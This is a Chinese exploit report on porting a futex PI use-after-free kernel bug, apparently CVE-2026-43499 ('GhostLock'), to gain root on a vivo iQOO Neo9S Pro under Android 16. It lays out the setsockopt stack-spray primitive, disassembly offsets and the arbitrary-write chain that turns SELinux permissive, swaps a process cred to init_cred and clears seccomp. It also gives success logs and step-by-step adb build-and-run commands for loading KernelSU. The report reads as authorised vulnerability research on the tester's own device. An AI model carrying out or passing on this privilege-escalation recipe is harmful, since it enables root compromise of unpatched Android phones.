


# 利用报告：vivo iQOO Neo9S Pro（V2339FA）GhostLock 取得 root

> 报告日期：2026-09-13
> 目标：vivo iQOO Neo9S Pro（V2339FA / PD2339，MediaTek MT6989），Android 16，内核 `6.1.145-android14-11-maybe-dirty`
> 结果：**成功取得 root**（KernelSU late-load，`su` 可用）
> 配套文档：[MCAST transport](2026-09-13_技术分析-mcast-transport.md) · [waiter 与 PI walk](2026-09-13_技术分析-rtmutex-waiter与PI-walk.md) · [设备手册](2026-09-13_操作手册-iqooneo9s-设备与测试.md) · [路线排查](2026-09-13_排查记录-投毒transport路线.md)

## 1. 执行摘要

本报告记录 GhostLock（CVE-2026-43499，futex PI 等待者 use-after-free）在 vivo iQOO Neo9S Pro（MT6989）上的移植与实测结果。

此前多轮测试中，利用在 PI walk 阶段稳定触发空指针 panic（`_raw_spin_trylock(NULL)`，x24=0），根因是原 TCP zerocopy transport 在本内核上深度不足 **0xF8** 字节，伪造 waiter 无法写到栈上正确位置；pselect transport 存在同量级几何偏差，均判不可行。

本次通过反汇编逐帧测量 `setsockopt` 调用链，发现 `setsockopt(SOL_IP, MCAST_JOIN_SOURCE_GROUP, 0x108)` 会在 `do_ip_setsockopt` 中执行 `memset(0x108)` + `copy_from_user(0x108)` 栈拷贝，拷贝区间完整覆盖 stale `rt_mutex_waiter`（waiter = 拷贝缓冲 + 0x60）。以该原语替换 TCP zc 并沿用 PR#127 的 compact 6.1 值形状后，利用链 W1→W2→W3→root 脚本全部打通，KernelSU 模块 late-load 成功，`su -c id` 返回 `uid=0(root) context=u:r:ksu:s0`，SELinux 已恢复 Enforcing。

## 2. 漏洞与利用链概述

| 项 | 内容 |
|----|------|
| CVE | CVE-2026-43499：futex PI requeue 路径的 `pi_blocked_on` 悬挂（`remove_waiter` 清 `current` 而非目标 waiter） |
| 本机状态 | **未修复**（`remove_waiter@0x10a15b0` 行为与 GKI 参照一致） |
| 影响面 | Android 14-16 GKI 6.1/6.12 系列；本机为厂商 +pgo,+bolt 定制构建 |
| 利用前提 | 本地任意 uid（本测试为 shell/uid 2000，无 seccomp）；依赖内核堆喷（kernelsnitch + skb reclaim）与 futex 竞态 |
| 利用效果 | 内核任意写原语（0 值与指针值）→ 关 SELinux、改子进程 cred、清 seccomp → KernelSU late-load → root |
| 修复建议 | 厂商侧升级到包含 futex PI 修复的内核；用户侧无可靠的单点缓解（问题在 futex PI 语义内部） |

## 3. Scope 与授权

| 项 | 值 |
|----|----|
| 目标设备 | vivo V2339FA（iQOO Neo9S Pro，设备代号 PD2339，SoC MT6989） |
| 系统 | `vivo/PD2339M/PD2339:16/BP2A.250605.031.A3/compiler260716172950:user/release-keys`，Android 16（SDK 36） |
| 内核 | `Linux localhost 6.1.145-android14-11-maybe-dirty #1 SMP PREEMPT aarch64`；4K 页、THREAD_SIZE 16K、`CONFIG_LTO_NONE`、+pgo,+bolt、BL 锁定 |
| 测试通道 | 本地 USB adb（serial `10AE8G1***`），shell 上下文（uid 2000、`Seccomp: 0`）；另见网络 adb `10.11.15.186:5555` |
| 授权说明 | 设备为测试者自有；仅本地缺陷验证与自用 root，不涉及第三方目标；未解锁 BL、未刷机 |
| case 说明 | 未建立正式 case 目录（无 scope.md/timeline.md），本报告内嵌 Scope 与 Timeline |

## 4. Evidence（证据链）

### 4.1 Evidence 表

| E-id | 观察 | source_ref | repro_command | content_hash (SHA-256) |
|------|------|-----------|---------------|------------------------|
| E-001 | futex 链帧长与 waiter 锚点：`__arm64_sys_futex` 0x70 + `do_futex` 0xd0 + `futex_wait_requeue_pi` 0x1c0；waiter 位于 fwrp sp+0x28 | `D:\daima\tmpbuild\futex_dis.txt` | `disasm_sym.exe boot.img __arm64_sys_futex do_futex futex_wait_requeue_pi` | `523FE889646D640ED2E9651A8139D9ADD46754241F3974EB31FD13838B475182` |
| E-002 | setsockopt 链帧长合计 0x350；MCAST 分支 0x108 memset+copy（@0xed7684）；校验与早退路径 | `D:\daima\tmpbuild\ss_dis.txt` | `disasm_sym.exe boot.img 0xed7684` / `__arm64_sys_setsockopt ...` | `3E6A2F1DD257A61800B8B4B54E900A54D36F3775619DFE74DD815A475EC46133` |
| E-003 | getsockopt 链 0x220；zc 拷贝落点 `do_tcp_getsockopt sp+0x40`，比 waiter 浅 0xF8 | `D:\daima\tmpbuild\getsock_dis.txt` | `disasm_sym.exe boot.img __arm64_sys_getsockopt do_tcp_getsockopt` | `5A0EF994C12290B930891E3BDFF7FC625959DAA60F8E2E19A35B32CC67FD13DE` |
| E-004 | PI walk 读 waiter 字段（lock/prio/deadline）与 rb 操作序列（rb_erase/rb_next/rb_insert_color） | `D:\daima\tmpbuild\adjust_chain.txt` | `disasm_sym.exe boot.img rt_mutex_adjust_prio_chain` | `9C1F7046890515BA690D185041E2F28F97B1CBF1B3E4DE1F877202E7C813E4CF` |
| E-005 | 成功运行日志：`mcast route won seq=16`、`mcast route done=1 calls=1 success=1`，无 panic | `D:\daima\tmpbuild\run_mcast1.log` | 见 §8 第 4 步 | `2C195E1B9C279DE3249277DFC043AA52F7A75BD9065238F1EFE85CFBF4C28AF1` |
| E-006 | root 脚本日志：uid=0、policy fixup rc=0、late-load exit=0、KernelSU 加载 | `D:\daima\tmpbuild\ksu_log_mcast1.log`（设备 `.ghostlock_ksu.log` 拉取） | 见 §8 第 5 步 | `68C6FBE01833B943C1C6EA16FC182500ED0B9002D8015E545FE381FC916C4586` |
| E-007 | 运行时状态：`/proc/modules` 含 `kernelsu ... Live`；`su -c id` 返回 uid=0 | 设备运行状态 | `adb shell "cat /proc/modules | grep kernelsu"`；`adb shell su -c id` | n/a |
| E-008 | observe 冒烟：MCAST 每次 `ret=-1 errno=99`（family 校验早退，拷贝已执行）、无 panic | `D:\daima\tmpbuild\run_observe1.log`（TCP 阶段同模式）+ 本次会话输出 | 见 §8 第 3 步 | `8A76F7B141FBABE85731E52B71505DF7D2C93D4B883F9993D301CBBEADC56354` |
| E-009 | panic #8 现场：waiter=stack_base+0x3b48（top−0x4b8）、`task->pi_blocked_on` 指向栈地址、`x24=0` | `D:\daima\tmpbuild\ramoops_p8_preinit.txt` | 崩溃转储（pstore/ramoops） | `5765EC437F0E2F556A7E0AEE6312C35B9358A56C91A4E6011DCC9347DBA16A6D` |
| E-010 | offsets.json（本机型条目，compact_waiter=1、waiter_* / task_* 字段与实测一致） | `D:\daima\root\build\GhostLock\offsets.json` | 设备导入日志：`offsets imported from offsets.json: 6.1.145-...` | `77B10E97CBA046F13FE31DCC1A66B6D939FD06A17A487BFE65C695F46ADB1019` |
| E-011 | 构建产物：`ghostlock`（本机编译） | `D:\daima\root\ghostlock-app\ghostlock` | `make NDK_ROOT=D:/AndroidSDK/ndk/29.0.14206865 ghostlock` | `694A3F6750A92D58B99C518096A0A80DB4131E88732F5863555FE0E4EF128464`（MD5 `71c8095ee3ed378afd2668f30c2d556a`） |
| E-012 | 二次验证（设备重启后 KernelSU 丢失再复现）：重跑成功、日志完整（`child is root!` / `KernelSU ready`） | `D:\daima\tmpbuild\run_mcast2.log`、`D:\daima\tmpbuild\ksu_log_mcast2.log` | 见 §8 第 4 步（`nohup` 后台运行） | `CFE8E7872C456CC0AB04982EF320CAAC315AAC79E3D2254CE96AA3480949B93A` |
| E-013 | KernelSU 版本配对修复后再次 root：ReSukiSU v4.2.0-rc1 管理器(35061) + 同版本 ksud(35061) → 驱动 35061；`su`/模块正常 | `D:\daima\tmpbuild\run_mcast16.log` | `su -c id`；`cat /proc/modules \| grep kernelsu`；`ksud -V` | `C9F018558F3C083D5E67B995BEE49A64D7131C9D6E8AEBF37E9C66C38E7F6AFA` |
| E-014 | 崩溃现场（ramoops）：`NULL+0x33b` @ `rt_mutex_adjust_prio_chain+0x1ec`，成因是"投毒后在 waiter 线程打日志"把伪造 waiter 冲掉（回归，已修复） | `D:\daima\tmpbuild\ramoops_p10.txt`（设备 `/data/local/tmp/console-ramoops-0` 由 root 脚本自动备份） | `dd if=/data/local/tmp/console-ramoops-0 of=/sdcard/…` 后拉取 | `ECFD97A692260982969ED42ED84F3C6F7932954ED58D19420AD6FFC2E35049BB` |
| E-015 | 崩溃现场（页回收失败）：`pc=rt_mutex_adjust_prio_chain+0x1ec`、fault `0x339`；`x24`=记录的 fake_lock 页基址（正确），`x27=0x301`（`lock->waiters.rb_leftmost` 非我方数据）→ 伪页未被 payload 命中 | `D:\daima\tmpbuild\ramoops_p11.txt`、`run_mcast23.log`（随后一次成功） | 同 E-014 的 root 脚本自动备份 + 重试 | `C778F1418F7269C3A2919DD95304DFE759C87C6171ACCEFFFA207FE163931276` |

### 4.2 关键 Evidence 摘录

成功运行日志（E-005，节选）：

```text
[*] mcast route enter observe=0 page=ffffff815b958000 lock=ffffff815b958000
    task=ffffff815b958400 pc=ffffff815b958100 left=ffffff800247f298
    attempts=128 arm=16 hold=20000
[*] mcast route won seq=16
[*] mcast route done=1 observe=0 calls=1 success=1 step=0 errno=0
```

root 脚本日志（E-006，全文）：

```text
[*] root script start uid=0 euid=0
[*] seccomp=Seccomp:	0 Seccomp_filters:	0
[*] ksud=/data/local/tmp/ksud
[*] ksud_file=-rwxr-xr-x 1 shell shell 5127424 2026-09-07 23:47 /data/local/tmp/ksud
[*] uname=6.1.145-android14-11-maybe-dirty
[*] fixup: attempt 1
1+0 records in
1+0 records out
1 bytes (1 B) copied, 0.001 s, 0.9 K/s
[*] policy fixup rc=0
[*] late-load kmi=android14-6.1 as uid=0
[*] late-load exit=0
[+] KernelSU module loaded
```

二次验证（E-012，2026-09-13 08:56，设备重启后 KernelSU 丢失再复现，节选）：

```text
[*] mcast route won seq=16
[*] child uid = 0
[+] child is root!
[+] no app seccomp filter (adb/shell flow); skipping W3
[*] exploit complete
[+] enforcing restored
[+] KernelSU ready
```

运行时状态（E-007，摘录）：

```text
kernelsu 241664 0 - Live 0x0000000000000000 (OE)

$ adb shell su -c id
uid=0(root) gid=0(root) groups=0(root) context=u:r:ksu:s0
```

## 5. Findings（关键结论）

| F-id | 标题 | severity | status | evidence_ids | location | confidence |
|------|------|----------|--------|--------------|----------|------------|
| F-001 | TCP zerocopy transport 在本内核上深度不足 0xF8，stale waiter 的 lock/task 无法命中 → NULL-lock panic | critical | validated | E-003, E-009 | `do_tcp_getsockopt sp+0x40` | high |
| F-002 | `setsockopt(SOL_IP, MCAST_JOIN_SOURCE_GROUP, 0x108)` 提供 0x108 字节栈拷贝，完整覆盖 stale waiter | critical | validated | E-002, E-008 | `do_ip_setsockopt @0xed7684` | high |
| F-003 | MCAST 栈拷贝 + pselect 值形状打通完整利用链（W1→W3→root 脚本→KernelSU） | critical | validated | E-005, E-006, E-007 | `src/core/fops.c` | high |
| F-004 | W1 页面筛选（page 地址 bit16 必须为 1，避免 `selinux_state.initialized` 被写偶字节）显著影响一次成功率 | medium | validated | E-008 | `prepare_good_kernel_page()` | high |
| F-005 | shell 上下文无 seccomp，W3 可跳过；KernelSU `late-load --allow-shell` 生效 | info | validated | E-006, E-007 | root 脚本 | high |
| F-006 | skb 页回收偶发失败（fake_lock 页非 payload）→ walk 以固定签名崩溃；单轮成功率 ~25–30%，自动重试 3–4 次可成功 | high | validated | E-015 | `prepare_kernel_page()` 页回收 | high |

### F-001 细节

反汇编（E-003）显示 `getsockopt` 调用链为 `0x10+0x60+0x10+0x10+0x190 = 0x220`，`TCP_ZEROCOPY_RECEIVE` 的 0x40 字节拷贝落在 `do_tcp_getsockopt` 帧 `sp+0x40`。以系统调用函数入口为基准，拷贝起点比 waiter 浅 **0xF8**（waiter 位于 `sp+0x40+0xF8` 之外）；panic 现场（E-009）显示 `waiter->lock` 读为 0，正是投毒未命中的直接后果。历史 DEBUG_REPORT 中 “−720 == −728+8 exact” 的静态结论与实测矛盾，矛盾来源见[路线排查文档](2026-09-13_排查记录-投毒transport路线.md)。

### F-002 细节

`do_ip_setsockopt`（帧 0x280）在服务器组地址族分支（optname 43/44/46/47）执行：

```text
add x0, sp, #0x18          ; 目标：帧内局部 struct group_source_req
mov w1, wzr
mov w2, #0x108             ; sizeof(struct group_source_req) = 264
bl  0x105c140              ; memset
...
cmp w23, #0x108            ; optlen 必须精确等于 0x108
b.ne 0xed7794              ; 否则 -EINVAL
add x0, sp, #0x18
mov x1, x22                ; user optval
mov x2, x20                ; user optlen
mov w3, #0x108
bl  0xed8180               ; copy_from_sockptr
...
b 0xed7d7c                 ; 族校验：gsr_group.ss_family / gsr_source.ss_family == AF_INET
```

完整链（含调用方帧）合计 `0x350`，拷贝区间覆盖 waiter（详见 [MCAST transport](2026-09-13_技术分析-mcast-transport.md)）。

### F-003 细节

路由实现位于 `src/core/fops.c` 的 `do_mcast_fake_lock_route()`：waiter 内容按 `buffer+0x60` 布点，零化 `gsr_group.ss_family` 使 syscall 在拷贝后以 `-EADDRNOTAVAIL` 干净返回；consumer 线程按 `arm_seq=16` 起对 waiter 线程触发 `sched_setattr` 走 PI walk。实测 seq=16 命中，W1 验证通过后自动进入 W2/W3。

## 6. Path（路径）

### P-001 攻击路径（attack）



- 步骤 1：W1 写 `selinux_enforcing`，SELinux 转 permissive — evidence: E-005/E-006 → finding: F-003
- 步骤 2：W2 写子进程 `task->cred` 指向 `init_cred`，`getuid()==0` — evidence: E-006 → finding: F-003
- 步骤 3：W3 清 seccomp（shell 上下文本无过滤器，跳过）— evidence: E-006 → finding: F-005
- 步骤 4：root 脚本以 uid=0 运行，`ksud late-load` 加载 KernelSU — evidence: E-006/E-007 → finding: F-003

### P-002 调用路径（callflow）



- 步骤 1：MCAST 拷贝（0x108）— evidence: E-002/E-008 → finding: F-002
- 步骤 2：consumer `sched_setattr` 触发 PI walk — evidence: E-005 → finding: F-003
- 步骤 3：rb_erase relink 写入目标地址 — evidence: E-004 → finding: F-003

### P-003 解题/移植路径（solve）


## 7. Timeline（关键时间线）

| 日期 | 事件 |
|------|------|
| 2026-09-08 | 初始移植与排查；TCP/pselect 路由均失败，6 次同签名 panic；判定 pselect 几何不可行 |
| 2026-09-09 | pi_blocked_on 生命周期静态分析（`task_blocks_on_rt_mutex` 置位 / `remove_waiter` 清 current）；observe 模式建立（不触发 walk） |
| 2026-09-10 | preinit walk（panic #8）；由崩溃现场实测 waiter 位于 `stack_top−0x4b8`；sendmsg/recvmmsg/io_uring/epoll 等候选全部太浅 |
| 2026-09-12 | 合并 origin/main（含 PR#127 “fix compact route on 6.1”）；复核 getsockopt 链 0x220；发现并验证 MCAST 0x108 原语；实现 `do_mcast_fake_lock_route()`；observe 冒烟通过；22:13 live 实测成功，KernelSU 加载（详见 E-005/E-006 时间戳） |
| 2026-09-13 | 二次验证：设备重启后 KernelSU 丢失，08:56 重跑 MCAST 链路约 15s 再次取得 root（E-012）；汇总文档（本目录） |
| 2026-09-13 | KernelSU 版本不匹配处理：定位驱动为 ReSukiSU CI 版(35072)、管理器为官方 v3.3.0(32601)；换 ReSukiSU 发布版成对 35061（管理器 APK + ksud）；修复"waiter 线程日志冲掉投毒"回归；10:19 再次 root 成功（E-013），并取得崩溃现场（E-014） |

## 8. 复现步骤

环境要求：本机 `boot.img` 已核对与运行内核逐字节一致；设备已开 adb 调试且 `/data/local/tmp/offsets.json` 为本机型条目（见[设备手册](2026-09-13_操作手册-iqooneo9s-设备与测试.md)）。

```bash
# 1. 构建（Git Bash / PowerShell 均可，NDK 路径按本机）
cd ghostlock-app
make NDK_ROOT=D:/AndroidSDK/ndk/29.0.14206865 ghostlock

# 2. 推送并校验完整性
adb -s 10AE8G1*** push ghostlock /data/local/tmp/ghostlock
adb -s 10AE8G1*** shell "chmod 755 /data/local/tmp/ghostlock; md5sum /data/local/tmp/ghostlock"
# 期望：71c8095ee3ed378afd2668f30c2d556a

# 3. observe 冒烟（安全，不触发 PI walk；应看到 errno=99 且不重启）
adb -s 10AE8G1*** shell "cd /data/local/tmp && GHOSTLOCK_OBSERVE=1 GHOSTLOCK_ROUTE=mcast GHOSTLOCK_CORE=4 GHOSTLOCK_CONSUMER_CORE=5 timeout 90 ./ghostlock"

# 4. 正式运行（失败会 panic 重启，风险自负）
adb -s 10AE8G1*** shell "cd /data/local/tmp && GHOSTLOCK_ROUTE=mcast GHOSTLOCK_CORE=4 GHOSTLOCK_CONSUMER_CORE=5 ./ghostlock"

# 5. 验证 root
adb -s 10AE8G1*** shell "su -c id"
# 期望：uid=0(root) gid=0(root) context=u:r:ksu:s0
adb -s 10AE8G1*** shell "cat /proc/modules | grep kernelsu"
# 期望：kernelsu ... Live ... (OE)
```

关键环境变量：

| 变量 | 值 | 作用 |
|------|----|------|
| `GHOSTLOCK_ROUTE` | `mcast` | 选择 MCAST 投毒 transport（本次新增） |
| `GHOSTLOCK_OBSERVE` | `1` | 只投毒、不触发 walk（冒烟） |
| `GHOSTLOCK_CORE` / `GHOSTLOCK_CONSUMER_CORE` | `4` / `5` | 主线程 / consumer 绑核（避免同核竞态） |
| `GHOSTLOCK_HOME` | `/data/local/tmp`（默认） | offsets.json 与日志目录 |

## 9. 遗留问题与后续工作

1. **APK 流程未接线 MCAST**：当前 app 的“TCP route”开关只覆盖 TCP/pselect（`GHOSTLOCK_TCP_ROUTE=0`），需增加 MCAST 传参或由 `offsets.json` 字段驱动默认路由，才能让 APK 端到端使用。
2. **stdout 截断**：进程存活时 stdio 缓冲导致运行日志在最后一条 `log_sync` 之后截断（`run_mcast1.log` 仅到 “PI route done”），后续可直接拉取 `/data/local/tmp/.ghostlock_ksu.log` 或让后续输出走 `log_sync`。
3. **遗留文件**：设备侧仅余 `/data/local/tmp/ghostlock`、`run_mcast2.log` 与 `.ghostlock_ksu.log`；二次运行后的 parked 进程已清理（`su -c kill`），旧 policy dump 已不存在。
4. **二次复现已完成**：2026-09-13 08:56（设备重启、KernelSU 丢失后）重跑 MCAST 链路，约 15 秒再次取得 root（E-012）。注意 **KernelSU late-load 不持久**：每次重启后 root 消失，需重跑本利用（即“临时 root”）。
5. **el0 公共路径基准**：静态几何与 panic 实测之间的 0xd0 差值归属公共 SVC 入口路径（未逐帧核对），不影响投毒布点结论（详见技术分析文档）。
6. **KernelSU 版本配对**：管理器与 ksud/驱动必须同项目同版本。最终方案 = **官方 KernelSU 成对**（管理器 v3.3.0/32601 + 从官方 APK 提取的 ksud 3.3.0 → 驱动 32601）；ReSukiSU v4.2.0-rc1(35061) 组合在本机打开管理器会内核卡死（watchdog 重启），已弃用。详见[操作手册 §7.1](2026-09-13_操作手册-iqooneo9s-设备与测试.md) 与 §9.1。
7. **稳定性经验**：开机后需等系统稳定（`uptime>5min`、1 分钟负载 `<10`）再运行；`kill` 处于 sigsuspend 的 ghostlock 进程可能引发延迟 panic（保留即可，重启自然清理）。
8. **崩溃本质与重试**：剩余失败均为堆喷页回收概率性失败（见 F-006/E-015），固定签名 panic；自动重试脚本（`retry_root4.ps1`）实测 4 次内成功。管理器**不需要**常驻后台，但**不要**划掉/强停管理器或 ghostlock（触发 KSU 清理路径 panic）。详见[操作手册 §9](2026-09-13_操作手册-iqooneo9s-设备与测试.md)。

## 10. 附录

### 10.1 工具与版本

| 工具 | 用途 |
|------|------|
| `tools/extract_rs/.../disasm_sym.exe` | boot.img 反汇编（`--list-syms` / `--containing` / `0xADDR` 模式） |
| NDK `aarch64-linux-android35-clang`（29.0.14206865） | native 二进制构建（`-O2 -flto`） |
| `adb`（USB serial `10AE8G1***`） | 推送、运行与日志采集 |
| pstore / ramoops | panic 现场取证（仅 panic 后首启可读） |

### 10.2 产物清单

| 文件 | 说明 |
|------|------|
| `ghostlock-app/ghostlock` | 本次构建的 aarch64 可执行文件（SHA-256 见 E-011） |
| `tmpbuild/run_mcast1.log` | 成功运行日志（E-005） |
| `tmpbuild/ksu_log_mcast1.log` | 设备 KSU 脚本日志拉取（E-006） |
| `build/GhostLock/offsets.json` | 本机型 offsets 条目（E-010） |
| `tmpbuild/{futex_dis,ss_dis,getsock_dis,adjust_chain}.txt` | 本次反汇编产物（E-001~E-004） |
| `tmpbuild/ramoops_p2..p8*.txt` | 历次 panic 现场（E-009） |
